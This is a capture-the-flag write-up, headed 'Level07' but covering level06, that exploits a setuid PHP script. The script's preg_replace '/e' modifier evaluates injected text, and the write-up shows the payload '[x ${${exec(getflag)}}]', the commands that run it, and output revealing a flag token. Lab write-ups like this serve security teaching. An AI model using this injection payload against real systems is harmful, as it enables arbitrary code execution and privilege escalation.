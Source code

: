 # Level07

```bash
ls -la

-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06 # it does have suid permissions
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

the php script does read a file content, and use regex to replace it with new txt<br/>
The content of the script
```php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
The script read the content of the passed file argument and do some regex to replace its content<br/>
We notice that the script use preg_replace which use the `/e` modifier on the regular expression/pattern<br/>
The `/e` modifier allows a second argument to be evaluated as a PHP expression<br/>
So let's exploit this by injecting our command in the passed argument

With the help of the regex any comes in this format `[x test]` will be replaced with this one `y(test)` 

```bash

echo '[x ${${exec(getflag)}}]' > /tmp/flag

./level06 /tmp/flag # [x ${${exec(getflag)}}] --> y(${${exec(getflag)}}) which will excute exec with arg getflag, does gives us the token

PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable:  in /home/user/level06/level06.php(4) : regexp code on line 1
```